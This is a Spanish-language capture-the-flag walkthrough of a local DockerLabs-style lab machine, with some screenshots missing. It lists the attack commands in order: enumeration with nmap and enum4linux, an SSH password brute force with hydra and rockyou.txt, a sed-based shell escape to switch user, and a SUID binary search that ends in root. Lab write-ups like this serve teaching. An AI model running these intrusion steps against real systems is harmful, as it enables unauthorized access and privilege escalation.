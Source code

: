 nmap: 445,80,22,139

![image](https://github.com/user-attachments/assets/3bb1be68-7619-4523-bc23-f1de1268799c)

---
hacemos un: enum4linux -a 172.17.0.2

![image](https://github.com/user-attachments/assets/b905716e-26f1-4f9f-bed5-cdb04ce17655)

Nos da dos nombres: andy y lucas

en el código fuente de la pagina de "Andy's house" hay una contraseña en base64: 

![image](https://github.com/user-attachments/assets/3c9ed1dd-f426-494a-acb2-052b168ccc2b)

> ZXN0b2VzdW5zZWNyZXRvCg==

Usamos: https://www.base64decode.org/es/

    nos da: estoesunsecreto

es un parámetro, así que dejamos la URL de la siguiente forma.

> http://172.17.0.2/estoesunsecreto/mensaje_para_lucas.txt

![image](https://github.com/user-attachments/assets/83682ff4-5a74-4c3f-8049-90d8167b687b)

Lanzamos un ataque de fuerza bruta ya que nos indican que la contraseña es débil:

> hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

![image](https://github.com/user-attachments/assets/19976a30-0ace-4715-8afc-29c6b38cc370)

nos da la contraseña de lucas: chocolate

entramos en el ssh con el usuario y contraseña encontrado

![[dockerlabs/facil/paradise/test6.png]]

utilizamos sudo -l

se escala con sed y lo buscamos en: https://gtfobins.github.io/gtfobins/sed/

colocamos el comando que nos dio y lo modificamos al principio: 

>sudo - u andy sed -n '1e exec sh 1>&0' /etc/hosts

![[dockerlabs/facil/paradise/test7.png]]


ahora buscamos como escalar, y buscando entre carpetas con el comando: 
> find / -perm -4000 -ls 2> /dev/null

Nos da dos ejecutables en " /usr/local/bin ", así que vamos a la ruta que nos muestra.

hay un "privileged_exec"
lo ejecutamos ya que tiene permisos de ejecución con Andy

> ./privileged_exec

![[dockerlabs/facil/paradise/test8.png]]
y somos root!
